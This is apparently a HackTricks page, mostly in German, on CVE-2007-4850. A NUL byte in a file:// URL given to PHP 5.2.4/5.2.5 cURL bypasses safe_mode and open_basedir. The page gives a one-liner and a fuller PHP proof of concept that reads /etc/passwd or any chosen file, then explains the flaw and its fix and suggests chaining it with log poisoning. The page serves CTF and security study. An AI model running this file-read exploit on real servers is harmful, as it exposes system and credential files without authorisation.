 # PHP 5.2.4 and 5.2.5 PHP cURL

{{#include ../../../../banners/hacktricks-training.md}}

Diese Seite dokumentiert einen veralteten, aber in CTFs und lokalen Legacy-Installationen weiterhin nützlichen Trick, um PHP safe_mode/open_basedir-Prüfungen mithilfe der cURL-Erweiterung in bestimmten PHP 5.2.x-Builds zu umgehen.

- Betroffen: PHP 5.2.4 und 5.2.5 mit aktivierter ext/curl.
- Auswirkung: Beliebige lokale Dateien lesen trotz safe_mode- oder open_basedir-Einschränkungen (keine direkte Code-Ausführung).
- ID: CVE-2007-4850.

Quelle: http://blog.safebuff.com/2016/05/06/disable-functions-bypass/

## One-liner PoC

Wenn safe_mode oder open_basedir aktiv sind und cURL aktiviert ist, gibt das Folgende den Inhalt des aktuellen Skripts zurück:
```php
var_dump(curl_exec(curl_init("file://safe_mode_bypass\x00".__FILE__)));
```
## Ausführlicher PoC (arbitrary file read)
```php
<?php
// Preconditions (legacy): PHP 5.2.4/5.2.5, safe_mode or open_basedir enabled, ext/curl loaded
$target = '/etc/passwd'; // change to the file you want to read
$ch = curl_init();
// The trick is the NUL byte (\x00). Prefix can be any string; checks are confused and the file after the NUL is read.
curl_setopt($ch, CURLOPT_URL, 'file://prefix'.chr(0).$target);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$resp = curl_exec($ch);
$err  = curl_error($ch);
curl_close($ch);
if ($resp !== false) {
echo $resp; // should contain the target file
} else {
echo "cURL error: $err\n";
}
?>
```
Hinweise:
- Verwende doppelte Anführungszeichen oder chr(0), um ein echtes NUL-Byte einzufügen. Prozentkodierung (%00) funktioniert nicht zuverlässig.
- Dies ist eine Datei-Lese-Primitive. Kombiniere sie mit anderen Primitiven (log poisoning, session file inclusion, etc.) für eine mögliche weitere Eskalation.

## Why this works (short)

Die Schwachstelle liegt darin, wie PHP 5.2.4/5.2.5 safe_mode/open_basedir-Prüfungen für file://-URLs in ext/curl durchführte. Der Check parste die URL und validierte eine Pfadkomponente, aber aufgrund der Behandlung von NUL-Bytes validierte er einen anderen String als den, den libcurl tatsächlich verwendete. In der Praxis konnte der Validator den Pfad nach dem NUL genehmigen, während libcurl den Teil vor dem NUL als URL-Container verwendete, was einen Bypass ermöglichte, der dazu führte, dass die Datei gelesen wurde, die nach dem NUL-Byte platziert war. Siehe die ursprüngliche Analyse und das betroffene Makro in curl/interface.c für Details. [CVE-2007-4850].

## Constraints and fixes

- Fixed in later 5.2.x (e.g., distro builds patched to 5.2.6) by correcting the parsing/validation in ext/curl.
- Only affects very old PHP deployments; safe_mode was removed in PHP 5.4 and modern builds do not exhibit this behavior.

## See also

Other disable_functions/open_basedir bypasses and modern techniques are collected here:

{{#ref}}
README.md
{{#endref}}



## References

- Ubuntu CVE-Eintrag mit Patch-Hinweisen und betroffenen Versionen: https://ubuntu.com/security/CVE-2007-4850
- Technische Aufarbeitung mit Code-Kontext (cxsecurity): http://cxsecurity.com/issue/WLB-2008010060
{{#include ../../../../banners/hacktricks-training.md}}
